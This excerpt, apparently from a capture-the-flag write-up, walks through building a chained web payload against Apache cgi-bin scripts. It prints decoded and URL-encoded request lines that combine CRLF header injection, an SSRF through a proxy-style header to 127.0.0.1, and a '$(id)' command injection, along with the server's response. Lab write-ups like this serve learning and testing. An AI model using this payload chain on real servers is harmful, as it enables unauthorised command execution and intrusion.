 
### 6. Crafting the Killer Payload:

Im not exaggerating when I say this part consumed **hours** of my life.

This was the most difficult part, I've spent more than 5 hours in order to be able to craft this payload, the payload that exploited multiple chaining vulnerabilities **double injection**, **proxy bypass**, **weird header tricks**, **blind execution**, and to top it all off, it had **zero output feedback** all in one shot.


I had to pull off **double injection** — one to inject into attack-domain, and another inside it to reach and exploit attack-ip. But guess what? It didn’t stop there.

The payload had to:
• Inject through a parameter **not meant for URLs** (name)
• Trick the server into issuing a **request to itself** (SSRF)
• Bypass the strict **regex filters** on the target parameter
• Use **CRLF injection** to forge headers and inject a second request
• Leverage **proxy-style headers** to force the server to connect to 127.0.0.1
• Deliver a **command injection** payload to attack-ip
• Execute **blindly** (no output returned!) – meaning I needed a **reverse shell** or webhook to verify it

Each attempt either got blocked, sanitized, or just… failed. I even got 400s, 302s, 408s—like I was talking to a grumpy wizard.


**After hours of trial and error**, I crafted the following initial payload:

Decoded URL (For clarification only):
```
GET /cgi-bin/attack-domain?target=Glitch&name=a1
Location: /azx
Content-type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=127.0.0.1%$(id)&name=

 HTTP/1.1
 ```

Encoded URL: (Always Ensure URL Encodeing)!
```
GET /cgi-bin/attack-domain?target=Glitch&name=a1%0d%0aLocation:+/azx%0d%0aContent-type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=127.0.0.1%$(id)%26name=%0d%0a%0d%0a HTTP/1.1
```

but I got the following response:

```
HTTP/1.1 302 Found
Date: Mon, 24 Mar 2025 00:41:51 GMT
Server: Apache/2.4.54 (Debian)
Location: ../?error=Hey /var/www/html/azx, watch it!
Content-Length: 301
Content-Type: text/html; charset=iso-8859-1
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
```
